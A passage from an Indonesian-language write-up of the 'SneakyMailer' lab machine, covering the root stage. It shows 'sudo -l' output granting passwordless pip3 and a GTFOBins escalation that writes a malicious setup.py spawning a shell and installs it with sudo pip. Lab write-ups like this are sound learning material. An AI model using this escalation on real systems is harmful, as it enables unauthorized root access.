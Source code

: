 Kita mendapatkan shell sebagai low dan user.txt

### Root

```
low@sneakymailer:~$ sudo -l
sudo: unable to resolve host sneakymailer: Temporary failure in name resolution
Matching Defaults entries for low on sneakymailer:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User low may run the following commands on sneakymailer:
    (root) NOPASSWD: /usr/bin/pip3
```

Dengan referensi GTFOBins kita bisa mendapat root

```
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo pip install $TF
```

# Rooted !